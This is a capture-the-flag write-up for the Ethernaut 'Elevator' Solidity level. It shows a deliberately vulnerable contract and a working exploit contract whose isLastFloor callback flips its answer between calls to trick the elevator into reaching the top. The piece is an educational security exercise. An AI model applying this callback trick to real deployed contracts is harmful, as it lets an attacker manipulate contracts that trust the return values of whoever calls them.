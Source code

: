 # Elevator
_difficulty 4/10_

This elevator won't let you reach the top of your building. Right?  
Things that might help:  
- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

## Sources
```javascript
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## Level author  
Martin Triay  
martriay@gmail.com  
https://github.com/martriay  

## Elevator solution

1. Get the `Elevator` instance address.  
`instance`

2. Using Remix, deploy the `LyingTower.sol` contract with the address of the `Elevator` as a parameter.  

```javascript
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) public view returns (bool);
}

contract LyingTower is Building {
  Elevator _elevator;
  bool lastFloor = true;

  function LyingTower(address elevator) public payable {
    _elevator = Elevator(elevator);
  }

  function isLastFloor(uint) public view returns (bool) {
    lastFloor = !lastFloor;
    return lastFloor;
  }

  function goToTop() public {
    _elevator.goTo(1);
  }
}
```

3. Invoke `goToTop` method of the `LyingTower` contract. The `isLastFloor` method changes state despite being declared as a view method. This will allow the elevator to reach the top floor.  

4. Check if the elevator is at the top.  
`await contract.top()`  
true  

5. Submit instance 🎉 

## Lesson

Currently, the Solidity compiler does nothing to enforce that a `view` or `constant` function is not modifying state. The same applies to `pure` functions, which should not read state but they can. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.  


An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.  
